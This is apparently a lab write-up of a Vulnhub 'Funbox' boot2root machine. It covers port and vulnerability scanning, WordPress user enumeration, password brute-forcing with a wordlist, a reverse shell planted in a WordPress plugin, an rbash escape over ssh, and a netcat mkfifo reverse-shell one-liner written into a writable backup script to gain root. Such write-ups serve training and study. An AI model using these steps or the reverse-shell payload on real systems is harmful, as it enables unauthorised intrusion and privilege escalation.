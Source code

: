# Funbox ~Vulnhub Walkthrough

Here is Walkthrough of Vulnhub Machine Funbox Boot2Root ! This is a reallife szenario, but easy going. You have to enumerate and understand the szenario to get the root-flag in round about 20min.

## Scanning

**nmap -p- 192.168.122.151**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled.png)

**nmap -sV -A 192.168.122.151**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%201.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%201.png)

**nmap -sV -A --script vuln 192.168.122.151 (Vulnerability scaning)**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%202.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%202.png)

Running nikto 

**nikto -h http://192.168.122.151**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%203.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%203.png)

Adding funbox.fritz.box in /etc/hosts

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%204.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%204.png)

## Enumeration

Open funbox.fritz.box in browser

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%205.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%205.png)

This site is wordpress site. So we'll run wpscan to enumerate username and password

**wpscan --url http://funbox.fritz.box/ -e u**

```jsx
root@kali:~# wpscan --url http://funbox.fritz.box/ -e u
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team 
                       Version 2.9.4
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time
[i] Last database update: 2018-08-21
[?] Do you want to update now? [Y]es  [N]o  [A]bort update, default: [N] > n
[+] URL: http://funbox.fritz.box/
[+] Started: Sun Aug 16 07:07:28 2020

[+] Interesting header: LINK: <http://funbox.fritz.box/index.php/wp-json/>; rel="https://api.w.org/"
[+] Interesting header: LINK: <http://funbox.fritz.box/>; rel=shortlink
[+] Interesting header: SERVER: Apache/2.4.41 (Ubuntu)
[+] robots.txt available under: http://funbox.fritz.box/robots.txt   [HTTP 200]
[+] Interesting entry from robots.txt: http://funbox.fritz.box/secret/   [HTTP 200]
[+] XML-RPC Interface available under: http://funbox.fritz.box/xmlrpc.php   [HTTP 405]
[+] Found an RSS Feed: http://funbox.fritz.box/index.php/feed/   [HTTP 200]
[!] Detected 1 user from RSS feed:
+-------+
| Name  |
+-------+
| admin |
+-------+
[!] Upload directory has directory listing enabled: http://funbox.fritz.box/wp-content/uploads/
[!] Includes directory has directory listing enabled: http://funbox.fritz.box/wp-includes/

[+] Enumerating WordPress version ...

[+] WordPress version 5.4.2 

[+] WordPress theme in use: twentyseventeen - v2.3

[+] Name: twentyseventeen - v2.3
 |  Latest version: 1.7 (up to date)
 |  Last updated: 2018-08-02T00:00:00.000Z
 |  Location: http://funbox.fritz.box/wp-content/themes/twentyseventeen/
 |  Readme: http://funbox.fritz.box/wp-content/themes/twentyseventeen/readme.txt
 |  Style URL: http://funbox.fritz.box/wp-content/themes/twentyseventeen/style.css
 |  Theme Name: Twenty Seventeen
 |  Theme URI: https://wordpress.org/themes/twentyseventeen/
 |  Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Enumerating plugins from passive detection ...
[+] No plugins found passively

[+] Enumerating usernames ...
[+] We identified the following 2 users:
    +----+-------+------------+
    | ID | Login | Name       |
    +----+-------+------------+
    | 1  | admin | admin      |
    | 2  | joe   | joe miller |
    +----+-------+------------+
[!] Default first WordPress username 'admin' is still used

[+] Finished: Sun Aug 16 07:07:35 2020
[+] Elapsed time: 00:00:06
[+] Requests made: 265
[+] Memory used: 31.73 MB
root@kali:~# 
```

Found two users admin and joe

Bruteforcing password using wpscan

**wpscan --url [http://funbox.fritz.box/](http://funbox.fritz.box/) --wordlist /usr/share/seclists/Passowrds/darkweb2017-top10000.txt --username admin**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%206.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%206.png)

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%207.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%207.png)

admin password: iubire

**wpscan --url [http://funbox.fritz.box/](http://funbox.fritz.box/) --wordlist /usr/share/seclists/Passowrds/darkweb2017-top10000.txt --username joe**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%208.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%208.png)

joe password: 12345

Login in http://funbox.fritz.box/wp-login.php using admin credential

Editing plugin akismet/akismet.php to take reverse shell

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%209.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%209.png)

Save the edited plugin and access in browser

funbox.fritz.box/wp-content/plugins/akismet/akismet.php

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2010.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2010.png)

Side by side start listener on port 1234

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2011.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2011.png)

Got shell of www-data user

using joe:12345 credential to connect using ssh

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2012.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2012.png)

cd: restricted

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2013.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2013.png)

To escape rbash, connect through ssh using command

**ssh joe@192.168.122.151 -t "bash --norprofile"**

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2014.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2014.png)

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2015.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2015.png)

Found .backup.sh file having full permission to other user in /home/funny directory

Edit file and put reverse shell payload

#!bin/bash 

rm /tmp/f;mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.122.148 4444 >/tmp/f

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2016.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2016.png)

start listener on port 4444

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2017.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2017.png)

After 4-5 min we got shell of root user.

cd /root 

cat flag.txt

![Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2018.png](Funbox%20~Vulnhub%20Walkthrough%20ac4c9170016f41b39c6c6e0a52f7caef/Untitled%2018.png)
